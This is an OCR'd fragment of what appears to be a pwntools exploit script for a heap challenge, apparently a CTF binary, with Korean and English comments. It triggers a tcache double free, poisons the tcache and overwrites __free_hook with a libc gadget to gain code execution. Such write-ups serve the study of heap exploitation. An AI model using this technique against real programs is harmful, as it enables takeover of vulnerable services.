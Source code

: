     # edit chunk2 (already freed)
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'Edit chunk:', b'A' * 8 + b'\x00')  # corrupt tcache_entry to free again

    # free chunk2 again <- Doubly Free Bug
    p.sendlineafter(b'Edit\n', b'2')
    # 이제 tcache 에는 동일한 메모리 주소를 가리키는 두 개의 chunk 가 생겼다.
    # tcache: (*) -> chunk2 -> chunk2
    # --------------------------

    # Poison tcache 
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size:', b'80')
    p.sendafter(b'Content:', p64(addr_free_hook))

    # tcache: (*) -> chunk2 -> __free_hook -> ...
    # --------------------------

    # pop chunk1 from  tcache
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size:', b'80')
    p.sendafter(b'Content:', PAYLOAD.encode())

    # tcache: (*) -> __free_hook -> ... 
    # --------------------------

    # pop __free_hook & overwrite __free_hook with gadget
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size:', b'80')
    p.sendafter(b'Content:', p64(libc_base + GADGET))
    print('gadget:', hex(libc_base + GADGET))
    # tcache: (*) -> ... 
    # --------------------------
